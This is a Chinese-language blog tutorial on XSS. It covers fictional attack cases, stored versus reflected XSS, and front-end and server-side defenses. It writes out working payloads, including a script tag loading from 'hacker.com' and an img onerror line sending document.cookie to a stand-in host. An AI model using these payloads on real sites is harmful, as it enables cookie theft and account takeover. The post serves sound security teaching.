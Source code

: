 ```yaml
---
layout: post
title: WEB安全指北：XSS攻击
date: 2019-05-14
categories: blog
header-color: "#678"
tags: [js]
---
```


### 今日说法：XSS 攻击案例（一）

以下案例纯属虚构：

黑客发现新浪某 url http://weibo.com/a/b/content 存在漏洞，url 内容未经过滤直接输出到页面中

攻击者构建一个 url, 诱导用户去点击

    http://weibo.com/a/b/content"><script src="//hacker.com/evil.js"></script>

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li>
  <script src="//hacker.com/evil.js"></script>
</li>
```

浏览器接收到响应后就会加载执行恶意脚本 hacker.com/evil.js，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，层层放大攻击范围。

### 今日说法：XSS 攻击案例（二）

程序员杨天宝开发了一个页面，用于展示用户输入的数据：

[dev.cabeza.cn/security/xss.html?a=坤坤](http://dev.cabeza.cn/security/xss.html?a=坤坤)

看起来没什么问题 😀

某日，杨天宝接到了自己页面的地址，虽然有点长:

<a href="http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM$L%27)%22%3E">dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM\$L%27)%22%3E</a>

点开后，页面弹出了写着粗鄙之语的弹出框

杨天宝又接到了一串神秘网址：

[dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E](<http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E>)

`注：该页面已经提前埋下了值为'password=ikun'的测试性cookie`

这时如果你打开浏览器的控制台，在 NETWORK 监控里就会发现已经朝http://www.xxx.com/cookie这个地址发送了请求，并且携带了自己的cookie

    http://www.xxx.com/cookie?c=password=ikun

想想攻击者拿到用户 cookie 意味着什么，杨天宝已经倒吸一口凉气了

### 案情分析

这是杨天宝开发的页面内容：

```html
<html lang="en">
  <head></head>
  <body>
    <div id="test"></div>
    <h1>我喜欢唱跳rap还有篮球</h1>
  </body>
  <script>
    // 从url参数中取值
    let a = getQueryString("a");
    document.querySelector("#test").innerHTML = a;
  </script>
</html>
```

杨天宝过分信任用户的输入，没有做任何防范。

上面的例子中，黑客的攻击语句分别为

    <img src="" onerror="javascript:alert('NM$L')">

    <img src="" onerror="document.body.appendChild(document.createElement('img')).setAttribute('src','http://www.xxx.com/cookie?c='+document.cookie);">

当这些恶意语句没有经过过滤注入到页面 HTML 中时，其中的 js 代码便会执行，实现达到窃取用户信息的目的

**这就是 XSS 攻击**

### XSS 的定义

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS

### XSS 的分类

根据攻击手段的不同，xss 可以分为

- 存储型 XSS
- 反射型 XSS

#### 存储型

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

比如上文的网站中如果有一个供用户输入的评论框

<textarea class="form-control" rows="3" placeholder="请输入"></textarea>

攻击者在输入框内输入

    全民制作人你们好！<script>alert('NM￥L')</script>

数据提交到后端没有没有进行过滤直接持久化，那么其他用户浏览到这段评论，恶意脚本便会执行

当然这里的例子只是一个恼人的弹出框。如果攻击者的脚本是删除操作、转账操作, 那么后果将非常严重了

#### 反射型

上文案例中黑客攻击杨天宝的网站所用手段，便是一个典型的反射性 XSS 攻击，利用系统漏洞，构造出包含恶意代码的特殊 URL，并欺骗用户去点击访问，从而触发恶意脚本发起 Web 攻击

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

### XSS 的防御

#### 前端层面

- 输入内容控制长度
- 输入过滤
- 谨慎使用 innerHTML、document.write()等
- vue 框架中，谨慎使用 v-html
- react 框架中，谨慎使用 dangerouslySetInnerHTML

#### 服务器

- 各种 Web Application Firewall，比如 nginx lua waf
- 设置 HTTP 的 Content-Security-Policy 头部字段

[lua waf](https://github.com/p0pr0ck5/lua-resty-waf/blob/master/rules/42000_xss.json)

[Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

#### 后端

- 对于一切用户的输入、输出、客户端的输出内容视为不可信，对于前端传来的 HTML 务必进行转义
- cookie 设置为 http-only
- 敏感操作加入前置校验（验证码等）

[转义库 owasp](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project)

### 总结

程序开发过程中

1. 始终认为用户是愚蠢的

2. 始终认为用户是恶意的

3. 攻防没有止境，定期主动对系统进行扫描，有备无患
